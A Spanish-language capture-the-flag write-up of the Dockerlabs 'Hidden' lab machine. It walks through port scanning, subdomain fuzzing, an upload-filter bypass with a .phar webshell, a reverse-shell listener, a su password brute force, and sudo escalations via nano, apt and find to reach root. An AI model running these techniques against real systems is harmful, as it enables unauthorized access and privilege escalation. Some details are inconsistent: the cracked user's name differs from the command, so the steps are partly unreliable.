

# Writeup de la Máquina Hidden de Dockerlabs

Lo primero que hago es realizar un escaneo de todos los puertos que tenga abiertos la máquina con la herramienta nmap.

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
```


Una vez realizado el escaneo recojo los puertos abiertos con la utilidad extractPorts, del fichero donde se ha guardado el escaneo de nmap. 

```bash
extractPorts allPorts
```


Teniendo el puerto copiado procedo a ejecutar un escaneo más profundo solo para el puerto 80 con nmap.

```bash
sudo nmap -p80 -sCV 172.17.0.2 -oN targeted
```


Al ver que tiene el puerto 80 decido mirar las tecnologías utilizadas en la web con whatweb.

```bash
whatweb http://172.17.0.2
```


Al ejecutar el whatweb veo que esta redirigiendo al dominio 'hidden.lab'.


Para solventar la redirección edito el archivo /etc/hosts

```bash
nvim /etc/hosts
```


Una vez editado si ponemos el dominio en el navegador y sale la siguiente página web. En esta hago un reconocimiento inicial, pero no veo nada interesante.


Viendo que de primeras no veo nada interesante, procedo a hacer web fuzzing para sacar directorios y archivos

```bash
gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://hidden.lab -x html,php,txt,js,sh
```


Voy revisando lo que me ha reportado gobuster, pero no encuentro nada que me sirva para ganar acceso a la máquina.


Visto que con lo anterior no he podido sacar nada, procedo a hacer una enumeración de subdominios con la herramienta wfuzz.

```bash
wfuzz -c --hc 404 --hl 9 -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host:FUZZ.hidden.lab" -u 172.17.0.2
```

 

Descubierto el subdominio dev, lo añado al /etc/hosts para que me resuelva el dns y miro a ver que es lo que tiene.


Veo que hay un formulario que permite la súbida de archivos, así que pruebo a subir una imagen para ver si imagenes deja subir y en efecto deja. Lo que no deja es un archivo con extensión .php.


Decido hacer de nuevo directory listing pero esta vez del subdominio y veo que hay una carpeta /uploads, así que decido mirar el contenido de esta para ver si esta el archivo que he subido con anterioridad y efectivamente esta.


Sabiendo todo esto creo un archivo php pero con extensión .phar que también interpreta php, dentro hago una webshell sencilla para ver si me deja acceder al sistema.


Y efectivamente deja ejecutar comandos en el sistema. Por lo tanto me entablo una reverse shell por el puerto 443.


```bash
sudo nc -nlvp 443
```


Una vez dentro del sistema busco por permisos suid, capabilities, binarios que pueda ejecutar como sudo y no encuentro nada. Voy a /home y veo que hay 3 directorios de usuarios que luego compruebo con el /etc/passwd. Y a las carpetas de estos usuarios no me deja entrar.



Viendo este panorama decido hacer fuerza bruta contra las contraseñas del los usuarios locales con la siguiente herramienta https://github.com/Maalfer/Sudo_BruteForce y una lista de contraseñas más pequeñas. Para esto cojo las primeras 400 filas del rockyou.txt, esto porque si le subo el rockyou entero peta.

```bash
head 400 /usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt > minimalRocku.txt
```


Para subirlo al server utilizo el campo de CV que hemos utilizado con anterioridad.


Para la herramienta haremos un git clone en nuestra máquina local y subiremos el archivo .sh.
```bash
git clone https://github.com/Maalfer/Sudo_BruteForce.git
```


Una vez con todos los componentes en el server empiezo a hacer bruteforce con el usuario cafetero y saca que la contraseña es 123123.

```bash
./Linux-Su_Force.sh bobby minimalRocku.txt
```


Teniendo la contrseña me conecto como cafetero y hago un sudo -l, en este veo que puedo ejecutar nano como el usuario john sin contraseña. A si que me voy a la página gtfobins para ver como poder escalar privilegios con nano.

```bash
sudo -l
```
```bash
sudo -u john /usr/bin/nano
^R^X
reset; sh 1>&0 2>&0
```


Una vez explotada la escalada me quedo como el usuario john. Y veo que este puede ejecutar como el usuario bobby el comando apt. Miro de nuevo en gtfobins como escalar privilegios pero esta vez con apt.

```bash
sudo -u bobby apt changelog apt
!/bin/bash
```


Por último ya con el usuario bobby miro de nuevo con sudo -l los comandos que puedo ejecutar con permiso de sudo y veo que puedo ejecutar el find como root. De nuevo voy a gtfobins y miro como escalar privilegios, esta vez con find.

```bash
sudo -u root find . -exec /bin/bash \; -quit
```


De esta forma ya consigo permisos de root!


